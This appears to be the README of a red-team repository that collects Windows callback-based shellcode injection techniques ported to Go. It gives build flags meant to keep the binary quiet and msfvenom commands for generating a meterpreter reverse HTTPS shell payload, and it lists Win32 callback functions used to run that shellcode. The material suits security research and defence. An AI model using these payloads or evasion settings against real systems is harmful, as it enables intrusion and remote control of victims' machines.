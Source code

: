 # Golang-Injection-Techniques
## Disclaimer
This repository presents a collection of already well-documented injection primitives, adapted to Go. The PoCs are not meant to evade competent AVs out-of-the-box as they have been around for quite some time now, but could be combined along with other techniques.

## Build
```
GOOS=windows go build -o DrawState.exe callbacks/DrawStateW.go

# Additional flags for opsec considerations
-ldflags -H=windowsgui  (do not pop any window)
-trimpath               (remove local path from final PE)
-ldflags="-s -w"        (shrink executable)
```
## Payload generation
The `hex` output of msfvenom was used as there was no golang buffer formatting
```
msfvenom --platform windows -a x64  -p windows/x64/exec CMD=calc.exe -f hex -o calc.hex
```
However these few lines allow to format manually 
```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=127.0.0.1 LPORT=443 -f raw -o meterpreter.bin
cat meterpreter.bin | xxd -p | sed 's/.\{2\}/0x&, /g' > meterpreter.gohex

# Then in the template
var shellcode = []byte{
  // insert formatted shellcode here
}
```



## Callback injection primitives
The following callback injection primitives have been pushed.
```
- DrawState
- EnumChildWindows
- EnumDisplayMonitors
- EnumDateFormats
- EnumDesktops
- GrayString
- EnumFonts
- LineDDA              
- EnumFontFamilies
- CallWindowProc
- EnumTimeFormats
- EnumWindows
- EnumDesktopWindows
- EnumThreadWindows
- EnumSystemLocales
- EnumSystemGeoID
```

## Untested callback injection primitives 
```
- EnumSystemLanguageGroups
- EnumUILanguages
- EnumSystemCodePages
```
Many more are presented in the pentester's promiscuous notebook ([https://ppn.snovvcrash.rocks/red-team/maldev/code-injection](https://ppn.snovvcrash.rocks/red-team/maldev/code-injection))


### References
- [http://ropgadget.com/posts/abusing_win_functions.html](http://ropgadget.com/posts/abusing_win_functions.html)
- [https://github.com/Ne0nd0g/go-shellcode](https://github.com/Ne0nd0g/go-shellcode)
- [https://github.com/aahmad097/AlternativeShellcodeExec](https://github.com/aahmad097/AlternativeShellcodeExec)
- [https://github.com/ChaitanyaHaritash/Callback_Shellcode_Injection](https://github.com/ChaitanyaHaritash/Callback_Shellcode_Injection)
- [https://osandamalith.com/2021/04/01/executing-shellcode-via-callbacks/](https://osandamalith.com/2021/04/01/executing-shellcode-via-callbacks/)

### Relevant resources
- [https://www.pinvoke.net](https://www.pinvoke.net)
- [https://ppn.snovvcrash.rocks/red-team/maldev/code-injection](https://ppn.snovvcrash.rocks/red-team/maldev/code-injection)
